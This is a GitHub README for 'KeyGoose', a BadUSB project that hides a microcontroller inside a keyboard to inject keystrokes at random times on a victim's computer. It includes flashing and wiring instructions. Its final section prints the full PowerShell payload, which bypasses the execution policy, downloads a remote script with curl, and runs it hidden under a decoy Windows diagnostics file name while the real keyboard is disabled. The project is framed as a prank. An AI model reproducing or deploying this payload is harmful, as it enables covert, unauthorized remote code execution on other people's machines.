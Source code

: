 # KeyGoose
###### Hacked By Me [Video 1](http://KeyGoose.HackedBy.Me "Video 1") Code
------------
##### KeyGoose is a fun implementation of a BadUSB, where a keyboard is "hacked" by wiring a microcontroller with custom firware to the inside of the keyboard. The microcontroller is designed to randomly deliver a payload (in the form of the [Desktop Goose Game](https://samperson.itch.io/desktop-goose "Desktop Goose Game")) to unsuspecting users in only 2.25 seconds.
------------
### What's Included in this Repository?
- A KeyGoose Parts List
- Written instructions as to how to create your own KeyGoose
- A technical explanation of how KeyGoose works
- The KeyGoose code (both the Driveby and Keyboard implementation) with which to flash the microcontroller
- The powershell script fetched and run by the KeyGoose upon payload injection

## Parts List
- A USB Keyboard
	- I recommend getting the cheapest keyboard you can find on Amazon. Not only will this bring-down the cost, but the cheaper keyboards tend to be more maleable and made of a weaker plastic, making the keyboard easier to manipulate when it comes to squeezing-in the microcontroller.
	- I also found that getting a keyboard that has a battery option was ideal, as it left a nice, open area in which to embed the microcontroller.
- A MicroController with USB Support
	- Any microcontroller should do, as long as it is small-enough and supports USB. In this project, I used a *Beetle ATmega32u4 Development Board*
- General Tools
	- Raspberry Pi with GPIO wires
		- You may use any other preferred method to flash the microcontroller, this is simply the option I went with, and will be explaining here.
	- Solder/Soldering Iron
	- Screw Driver
	- File Set
	- 26 AWG Wire
	- Wire Stripper

## Instructions
1. Flash the microcontroller with the provided code
1. Open the keyboard and wire the microcontroller to the controller in the Keyboard
1. Enjoy!

##### Step 1
Depending on where you bought your microcontroller, it may already come with a bootloader installed. For the purposes of this project, we're going to need to get rid of the bootloader, and flash the microcontroller with our code directly. In order to do so, you'll need to get some breadboard jumper wires and a Raspberry Pi.
> Please note: There are many other ways to flash the microcontroller, so if you'd prefer to use another method, feel free to do so!

In order to begin flashing the microcontroller with the Raspberry Pi, it's important to first identify the correct General Purpose Input Output pins to use. Lookup the pinout diagram for your microcontroller. The pinout of the Raspberry Pi can be found [here](https://pinout.xyz/# "here"). If you are using the Beetle that I used, then you may use the image below as a reference. I also found [this online article](https://ozzmaker.com/program-avr-using-raspberry-pi-gpio/ "this online article") to be extremely helpful.

![Raspberry Pi GPIO Photo](https://raw.githubusercontent.com/NoahTroy/KeyGoose/master/Raspberry%20Pi%20GPIO%20Photo.jpg "Raspberry Pi GPIO Photo")

Once we have the wiring all set, our next step is to dowload and install *avrdude* on the Raspberry Pi. This can be done by running:
`sudo apt install avrdude`
Now that avrdude is installed, it's important to edit the configuration file to support flashing over GPIO. Open the configuration file (`sudo nano /etc/avrdude.conf`) and find the commented-out programmer section with the ID: "linuxgpio". You're going to want to uncomment this entire section and replace the question marks with the values 4, 11, 10, and 9, in that order, to tell avrdude which GPIO pins to use. The uncommented section should now look like this:
```
programmer
  id    = "linuxgpio";
  desc  = "Use the Linux sysfs interface to bitbang GPIO lines";
  type  = "linuxgpio";
  reset = 4;
  sck   = 11;
  mosi  = 10;
  miso  = 9;
;
```
At this point, we are ready to flash the microcontroller. I was using an ATmega32U4 (the Beetle). If you are as well, then the following command should work just fine. If not, then make sure to modify the command appropriately for your hardware:
`sudo avrdude -c linuxgpio -p atmega32u4 -v -U flash:w:KeyGoose.hex`
If you wish to flash the Driveby version of KeyGoose, be sure to replace `KeyGoose.hex` with `DrivebyGoose.hex`, in the command above.
Congratulations, you have now successfully flashed the microcontroller!

##### Step 2
Before I share how I went about wiring the Keyboard and the microcontroller together, let me be clear: *I am not an electrical engineer. I can almost guarantee you that there is probably a better, more-technical way to do this. Although everything ended-up working fine for me, there's always the chance that this could be harmful to your devices. Proceed at your own risk.*

Alright, before we get to any of the soldering, the most important thing is to carefully open-up the keyboard, and identify where the USB controller is. Make sure you're looking for the point where the USB cable is *first* soldered into the PCB. For your sake, hopefully the keyboard manufacturer followed standards, labeling their PCB and correctly color-coding the wires. Right now, your job is to figure out which of the four solder points matches with which of the four (USB) pins on your microcontroller. If you're having trouble figuring it out, [this article](https://www.electroschematics.com/usb-how-things-work/ "this article") may help. You may also rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
After you're certain that you have the correct match-up, strip the USB cabling and solder each of the four wires to the microcontroller, and the other ends to the corresponding point on the PCB. Once again, feel free to rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
Finally, use the files to grind-out a spot within the keyboard to place the microcontroller. If you managed to get a keyboard that supports a battery, I recommend placing the microcontroller there, as there should be plenty of room, and you won't obstruct the normal operation of the keyboard.

##### Step 3
Enjoy! Just make sure that if you decide to use this keyboard to prank friends, family, or others, you do so responsibly, and you always have the necessary permissions first. If used improperly, you could have hacking charges filed against you.

> ##### If you do end up using this program, make sure you head over to Desktop Goose's [download page](https://samperson.itch.io/desktop-goose "Desktop Goose Game") first, and leave a tip for the developer. I did not create this game, and we owe all of the fun of this project to them. Out of respect to the developer, the Desktop Goose game installed by this code is an out of date version. If you wish to install the latest version, feel free to get it from the [download page](https://samperson.itch.io/desktop-goose "Desktop Goose Game"), and give your thanks to the developer.

## How Does KeyGoose Work?

KeyGoose works by emulating a USB Keyboard, and injecting keystrokes very quickly into the host computer at a designated time. Below, I'll outline the exact process that KeyGoose takes:
1. The keyboard emulation code initializes, and prepares itself to inject key presses.
1. A random seed is gathered by adding together the analog sensor values from A0 and A1.
1. A random value between 1 and 6 is generated. If the value is equal to 3, the code continues. If not, the program waits 30 minutes, before restarting from the beginning. This gives the code only about a 15% chance of running every 30 minutes and/or every time the user boots their computer.
1. If the program continued, a random time delay is generated between 4 and 20 minutes long. This time delay gives the computer time to finish booting, and maintains inconsistency, to further confuse the user.
1. After the time delay, the microcontroller sends the payload, disabling the actual keyboard while it does so.
	- The payload sent is a series of key combinations to open powershell as an administrator, and then run the following command:
	- `Set-ExecutionPolicy RemoteSigned -Force; cd C:\Windows\Temp; echo "Invoke-Expression 'curl https://KeyGoosePS1.HackedBy.Me -o d7893c3e.ps1; & .\d7893c3e.ps1; C:\Windows\Temp\tw-9dc-75c-5c965a3.tmp\DesktopGoose.exe; exit'" > DiagTrack_AlternativeTrace.ps1; start-process PowerShell.exe -arg $pwd\DiagTrack_AlternativeTrace.ps1 -WindowStyle Hidden; exit`
	- This command essentially downloads the PowerShell script into the Temp directory, gives it the necessary permissions to run, then runs it. This command is designed to be exeuted in the background though, so that the PowerShell window may be closed immediately, instead of having to wait on the download and execution of the script.

